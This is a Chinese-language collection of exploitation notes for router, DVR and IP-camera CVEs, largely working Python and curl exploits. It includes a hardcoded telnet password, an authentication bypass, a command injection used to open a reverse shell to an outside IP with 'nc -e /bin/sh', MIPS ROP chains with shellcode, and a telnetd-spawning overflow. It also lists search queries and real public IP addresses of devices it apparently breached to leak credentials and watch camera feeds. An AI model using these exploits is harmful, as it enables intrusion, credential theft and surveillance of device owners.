

# CVE-2024-22853
D-LINK Go-RT-AC750 GORTAC750_A1_FW_v101b03具有 Alphanetworks 帐户的硬编码密码，允许远程攻击者通过 telnet 会话获得 root 访问权限。

在启动项中的S80telnetd.sh中


其写明了路径为/etc/config/image_sign，其就为telnet连接的默认密码，账户名则为Alphanetworks


wrgac18_dlob.hans_ac750

## 说明

此漏洞凡是开启telnet 使用默认账户密码即可连接进入shell


# CVE-2024-46486

## 传输命令
实时操作系统，并未找到


## 分析
TP-Link 路由器在 `httpProcDataSrv` 函数中有一个 Command Execute。
Firmware download:[TL-WDR7660千兆版 V1.0升级软件20190830_2.0.30 - TP-LINK 服务支持](https://service.tp-link.com.cn/detail_download_7989.html)
binwalke -Me 解压看到应该是个实时操作系统

是基于vxworks的实时操作系统


解压 uBoot 程序后，我们注意到紧跟在 u-Boot 程序之后的第一条 LZMA 数据的大小是所有 LZMA 数据中最大的一条。一般来说，这是主程序的位置。


使用dd命令提取主程序
```sh
dd if=WDR7660gv1.bin of=main.lzma bs=1 skip=66560 count=1355840
```

再把提取出来的main.lzma通过lzma来进行解压后得到mian，通过binwalk可以分析得到小端序


binwalk -A 可以看到其指令为arm的小端序指令集


根据文章[VxWorks固件加载地址分析方法研究 | Hexo (unrav31.github.io)](https://unrav31.github.io/2022/11/30/vxworks-gu-jian-jia-zai-di-zhi-fen-xi-fang-fa-yan-jiu/)
tips：在部分固件中，字符串“MyFirmware”可作为加载地址的关键指纹，但这并不通用。具体方法是：在固件中搜索字符串“MyFirmware”，然后往上查找一个段开始的位置，这很好辨认，一般段开始位置之前是上一个段使用0xFF或者0x00进行填充。找到段开始位置之后往后数0x18个字节，这两个四字节值即是VxWorks系统的加载地址。样例如下：


故由此可知此VxWorks系统的加载地址为40 20 50 00 40 20 50 00s


放入IDA分析，选择arm小端序打开，设置如下，ROM从0x40205000开始，从0x40205000开始加载


加载后，c键自动分析函数，识别的函数很少


使用插件[Code search results (github.com)](https://github.com/zh-explorer/ida_script/blob/master/firmware_fix.py)全部打勾即可，去识别更多的函数功能


binwalk -Me解压后，去grep查看关于符号表的内容


发现在15CBBA这个二进制程序中有关于符号表的内容

tips：TP-LINK WDR7660固件的符号表和VxWorks系统文件是分离的，所以需要从binwalk解压升级文件后得到的文件中寻找符号文件。Bzero是VxWorks中一个函数，系统启动过程中会使用bzero函数对bss区的数据进行清零，因此可以利用”grep -r bzero”查找bzero函数，bzero函数所在的文件即为符号表文件

在010中也可以看到符号表截止到0x1A728


使用其插件将15CBBA的符号表导入到main中[0xba1100n/VxhunterIDAForkForPython3HighVersion: 修复停止维护的Vxhunter IDA插件项目在python3高些的版本下运行的若干问题 (github.com)](https://github.com/0xba1100n/VxhunterIDAForkForPython3HighVersion)
没有恢复成功

IDA要恢复成功的话一开始不需要设置vxwork的起始地址，脚本自己跑出来会计算它的偏移

用Ghidra恢复加载符号表成功，但是伪代码不好看

如果 `method` 为 `“do”`，则函数接下来会尝试匹配会话。如果没有找到有效的 session，它会跳转到 LABEL_18，设置 HTTP 状态码为 401（未授权），然后退出。
如果存在有效的会话，该函数将检查 JSON 对象中是否存在 “login” 字段并尝试获取密码。如果密码验证失败或不符合要求，会跳转到 LABEL_26，设置 HTTP 状态码为 401，然后退出。 


如果 JSON 对象包含字段 `“cfgsync”` 且 `“get_config_info”` 字段的值为 `null`，则该函数将调用 `sub_8030BAFC` 函数，这可能会绕过用户授权检查。
那么，如果我们发送的 JSON 数据包含 `“method”：“do”` 和 `"cfgsync":{"get_config_info":null}` ，它们或许可以绕过 `httpDoAuthorize` 函数（本应负责用户授权）调用。


## exp

```python
import requests

ip_port = ""

s = requests.Session()
data = "{\"system\":{\"reset\":null},\"method\":\"do\", \"cfgsync\":{\"get_config_info\":null}}"

response = s.post(f"http://{ip_port}/ds", data=data)

print("Status code:", response.status_code)
print("Response body:", response.content)
```


## FOFA
"TL-WDR5620" && country="JP"
126.43.215.70:8082
126.117.229.138:8082
126.66.181.41:8082

## 说明

此漏洞，RCE仅能重置，利用意义并不大

# CVE-2024-7339

## FOFA
"v\=20180615.01\" src\=\"js/lib/require.js\" type\=\"text\javascript" && country="US"

## 传输命令
没有固件，并未找到

## poc
```sh
curl -X POST "http://ip/queryDevInfo" -H "Accept-Language: en-US,en;q=0.9" -H "Accept-Encoding: gzip, deflate" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" -H "Upgrade-Insecure-Requests: 1" -H "Connection: keep-alive" -H "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS like Mac OS X) AppleWebKit (KHTML, like Gecko) Version Mobile Safari" -H "Content-Length: 103" -d '<?xml version="1.0" encoding="utf-8" ?><request version="1.0" systemType="NVMS-9000" clientType="WEB"/>'
```


## exp
```python
import requests

target_ip = "http://"

data = '''<?xml version="1.0" encoding="utf-8" ?>
<request version="1.0" systemType="NVMS-9000" clientType="WEB"/>'''

headers = {
    "Accept-Language": "en-US,en;q=0.9",
    "Accept-Encoding": "gzip, deflate",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Upgrade-Insecure-Requests": "1",
    "Connection": "keep-alive",
    "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS like Mac OS X) AppleWebKit (KHTML, like Gecko) Version Mobile Safari",
    "Content-Length": str(len(data))
}

response = requests.post(f"{target_ip}/queryDevInfo", headers=headers, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Body: {response.text}")
```


## 说明

此漏洞仅做到信息泄露其配置文件信息，如SN码等，利用意义不大

# CVE-2024-3721

## 传输命令

tftp，wget


## FOFA
"Location: /login.rsp"

github链接：[netsecfish/tbk_dvr_command_injection (github.com)](https://github.com/netsecfish/tbk_dvr_command_injection)

## poc
```sh
curl "http://<dvr_host>:<port>/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=echo%3B%20<URL_ENCODED_SHELL_COMMAND>" -H "Cookie: uid=1"
```


	
## exp1

```python
import requests

ip = "78.189.18.121"
mdc_command = "echo%3bls%20-al%20%2f"

url = f"http://{ip}/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc={mdc_command}"

headers = {
    "Cookie": "uid=1"
}

response = requests.get(url, headers=headers)

print("Status code:", response.status_code)
print("Response body:", response.text)
```


cpu信息
```sh
cat /proc/cpuinfo
```


## 得到权限
http://78.188.43.252/login.rsp
先在客户端上监听
```sh
nc -lvp 55555
```

再打exp就可以实现反弹shell


## exp2
```python
import requests
import urllib.parse

dvr_host = "http://78.188.43.252"
mdc_command = "echo;nc 188.127.254.13 55555 -e /bin/sh"

encoded_command = urllib.parse.quote(mdc_command)

url = f"{dvr_host}/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc={encoded_command}"

headers = {
    "Cookie": "uid=1"
}

response = requests.get(url, headers=headers)

print("Status code:", response.status_code)
print("Response body:", response.text)
```

## 说明

exp1仅作为单独的命令执行
此漏洞可以通过nc命令监听，exp2打通后反弹shell得到权限

# CVE-2024-46325

## 传输命令

tftp


固件下载地址：[https://www.tp-link.com/no/support/download/tl-wr740n/#Firmware](https://www.tp-link.com/no/support/download/tl-wr740n/#Firmware)
版本：TL-WR740N V6

## SaTC污点分析
```sh
python satc.py -d /home/satc/SaTC/wr740nv6/ -o /home/satc/SaTC/wr740nv6_bug --ghidra_script=ref2sink_cmdi -b httpd --taint_check
```
## exp
```python
import requests
import urllib
session = requests.Session()
session.verify = False
def exp(path,cookie):
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))
        }
    payload="/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
    params = {
    "mode":"1000",
    "curRegion":"1000",
    "chanWidth":"100",
    "channel":"1000",
    "ssid":urllib.request.unquote(payload)
    }
    url="http://192.168.0.1:80/{path}/userRpm/popupSiteSurveyRpm.htm".format(path=str(path))
    resp = session.get(url,params=params,headers=headers)
    print (resp.text)
exp("UGHOCXOCKPNZQZUB","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

授权
%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D

## 说明

此漏洞需要每次知道url的第一段内容，此内容是随机生成的，利用前提需要访问web端得知，且授权需知道密码
同CVE-2020-8423还没调试达到利用效果
```python
#!/usr/bin/python  
from pwn import *  
import requests  
import socket  
import socks  
import urllib  
import struct  
  
default_socket = socket.socket  
socket.socket = socks.socksocket  
session = requests.Session()  
session.verify = False  
context.endian = 'big'   
libc_base=0x77f39000   
sleep =0x53CA0 #end 00053ECC  
  
#gadgets  
g1=0x000E204 #0x77F47204  
#LOAD:0000E204                 move    $t9, $s1  
#LOAD:0000E208                 jalr    $t9 ; sysconf  
#LOAD:0000E20C                 li      $a0, 3  
g2=0x00037470  
#LOAD:00037470                 move    $t9, $s2  
#LOAD:00037474                 lw      $ra, 0x28+var_4($sp)  
#LOAD:00037478                 lw      $s2, 0x28+var_8($sp)  
#LOAD:0003747C                 lw      $s1, 0x28+var_C($sp)  
#LOAD:00037480                 lw      $s0, 0x28+var_10($sp)  
#LOAD:00037484  
#LOAD:00037484 loc_37484:  
#LOAD:00037484                 jr      $t9 ; xdr_opaque_auth  
#LOAD:00037488                 addiu   $sp, 0x28  
g3=0x0000E904 #0x77f47904  
#LOAD:0000E904                 addiu   $a1, $sp, 0x168+var_150  
#LOAD:0000E908                 move    $t9, $s1  
#LOAD:0000E90C                 jalr    $t9 ; stat64  
#LOAD:0000E910                 addiu   $a0, (aErrorNetrcFile+0x28 - 0x60000)  
g4=0x00374D8  
#LOAD:000374D8                 move    $t9, $a1  
#LOAD:000374DC                 sw      $v0, 0x4C($a0)  
#LOAD:000374E0                 move    $a1, $a2  
#LOAD:000374E4                 jr      $t9  
#LOAD:000374E8                 addiu   $a0, 0x4C  # 'L'  
  
shellcode="\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28\x27\x28\x06\xff\xff"  
shellcode+="\x24\x02\x10\x57\x01\x01\x01\x0c\xaf\xa2\xff\xff\x8f\xa4\xff\xff"  
shellcode+="\x34\x0e\xff\xff\x01\xc0\x70\x27\xaf\xae\xff\xf6\xaf\xae\xff\xf4"  
shellcode+="\x34\x0f\xd8\xf0\x01\xe0\x78\x27\xaf\xaf\xff\xf2\x34\x0f\xff\xfd"  
shellcode+="\x01\xe0\x78\x27\xaf\xaf\xff\xf0\x27\xa5\xff\xf2\x24\x0f\xff\xef"  
shellcode+="\x01\xe0\x30\x27\x24\x02\x10\x4a\x01\x01\x01\x0c\x8f\xa4\xff\xff"  
shellcode+="\x28\x05\xff\xff\x24\x02\x0f\xdf\x01\x01\x01\x0c\x2c\x05\xff\xff"  
shellcode+="\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\xff\xfd\x01\xc0\x28\x27"  
shellcode+="\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\x3d\x28\xaf\xae\xff\xe2"  
shellcode+="\x24\x0e\x77\xf9\xaf\xae\xff\xe0\x8f\xa4\xff\xe2\x28\x05\xff\xff"  
shellcode+="\x28\x06\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"  
  
s0=p32(0x11111111)  
s1=p32(g2+libc_base) # break   
s2=p32(sleep+libc_base)  
  
payload= "/%0A"*0x55 +2*'x'+s0 +s1 +s2  
payload+=p32(g1+libc_base)    
payload+='x'*28  
payload+=p32(g4+libc_base) #s1  
payload+=p32(0x33333333) #s2  
payload+=p32(g3+libc_base) #ra  
payload+='x'*24  
payload+=shellcode  
  
  
  
def exp(path,cookie):  
    headers = {  
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",  
                "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))}  
  
    params = {  
        "mode":"1000",  
                "curRegion":"1000",  
                "chanWidth":"100",  
                "channel":"1000",  
                "ssid":urllib.unquote(payload)  
        }  
    url="http://10.211.55.8:80/{path}/userRpm/popupSiteSurveyRpm_AP.htm".format(path=str(path))  
    resp = session.get(url,params=params,headers=headers,timeout=10)  
    print (resp.text)  
  
exp("FMHSNOEAAJAKZBNA","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

# CVE-2020-8423

## 传输命令

tftp


固件下载地址：[Tải về cho TL-WR841N | TP-Link Việt Nam](https://www.tp-link.com/vn/support/download/tl-wr841n/v10/#Firmware)

对于stringModify()函数的分析

每次循环从输入字符串中读取一个字符 v7，如果字符是 `/、>、<、\\ 或 "`, 则用反斜杠 `\ `来转义，之后将该字符复制到目标缓冲区。
如果字符是 `\r `或` \n`，则跳到 LABEL_21，并将接下来的字符检查是否为 `\r `或 `\n`。如果不是，它将插入字符串`<br>`（用于HTML换行符），然后将其复制到目标缓冲区。
对于其他字符，直接复制到目标缓冲区。


问题在于向缓冲区添加字符串`<br>`，数据增加了4个字节，但程序只处理了1个字节


那么只要找到一个调用此函数的，且缓冲区是来自用户的输入，那么就容易导致溢出
向上找到writePageParamSet函数调用了此函数，且v11是用来存储经过stringModify()函数处理过后的字符，且a3是用户的可控点


再向上追溯，发现在sub_45EB48函数中v57是来自ssid


v57是来自ssid，ssid是可控点，是get方式得到的


再次向上追溯，直到追溯到用来处理包含`/userRpm/popupSiteSurveyRpm.htm` 字符串的URL


那么至此漏洞调用链分析完毕

此外nx保护并没有开启那么可以直接执行shellcode


## 调试tips

会遇到很多个pid的httpd，需要传一个busybox，然后用`netstat -npta`去查看，会得到181/httpd


## 测试poc
```sh
curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.0.1/LABTFQCAMGOPWQKA/userRpm/popupSiteSurveyRpm.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```
## 说明

此漏洞需要每次知道url的第一段内容，此内容是随机生成的，利用前提需要访问web端得知，且授权需知道密码
同CVE-2024-46325还没调试达到利用效果


# CVE-2018-9995
## FOFA
"XVR Login"
github:[CVE-2018-9995_dvr_credentials/README.md at dev_tool · ezelf/CVE-2018-9995_dvr_credentials (github.com)](https://github.com/ezelf/CVE-2018-9995_dvr_credentials/blob/dev_tool/README.md)
## poc
```
curl "http://85.105.249.37/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```


泄露出来账户名和密码   admin1 ce登录


登录成功一直在转圈，显示不出来可能是网络不太好

## exp

```python
import requests

host = "85.105.249.37"
url = f"http://{host}/device.rsp?opt=user&cmd=list"

headers = {
    "Cookie": "uid=admin"
}

response = requests.get(url, headers=headers)

print("Status code:", response.status_code)
print("Response body:", response.text)
```

## 说明

此漏洞泄露了账户名和密码，利用此可以登录到web端查看实时画面，使用IE浏览器兼容性好可以看到画面

# CVE-2019-10999

## 传输命令

curl

`curl -O` 传文件




栈


通过GDB调试发现buff为16个后四位覆盖掉了s0寄存器，可以设为system

找到合适的gadget
```c
.text:00050DE4 addiu $s2, $sp, 0x1C8+var_D8  
.text:00050DE8 move $a0, $s2  
.text:00050DEC move $t9, $s0  
.text:00050DF0 jalr $t9 ; sub_505D0
```

基地址+要跳转的地址 = payload中的地址(url编码)

```payload
http://0.0.0.0:18080/wireless.htm?WEPEncryption=AAAAAAAAAAAAAAAA%20%ed%f1%77AAAAAAAAAAAAAAAAAAAA%e4%3d%f2%77AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBtelnetd
```

## exp

```python
import requests

ip_address = "192.168.100.2"

Headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'keep-alive',
    'Referer': f'http://{ip_address}/setSystemWireless',
    'Upgrade-Insecure-Requests': '1'
}

session = requests.session()
data = '?WEPEncryption=' + 'A' * 0x10 + '%20%BD%F1%77' + 'B' * (0x28 - 0x10 - 0x4) + '%E4%0D%F2%77' + (0x30 - 0x28 - 0x4 + 0x1c8 - 0xd8) * 'C' + 'telnetd'
res = session.get(url=f'http://{ip_address}/wireless.htm' + data, headers=Headers)
print(res.text)
```

## 说明

此漏洞可以通过溢出执行telnetd开启telnet，通过telnet进入到shell

# CVE-2020-25078

FOFA
app="D_Link-DCS-2530L"
app="D_Link-DCS-2670L"
app="D_Link-DCS-4603"

url
`http://175.137.179.74:3128/config/getuser?index=0`

信息泄露其账号密码


登录成功


## exp
```python
import requests

host = "175.137.179.74:3128"

url = f"http://{host}/config/getuser?index=0"

response = requests.get(url)

print("Status code:", response.status_code)
print("Response body:", response.text)
```

## 说明

此漏洞可以泄露其web端账户名和密码，通过此登录可以实时查看其监控画面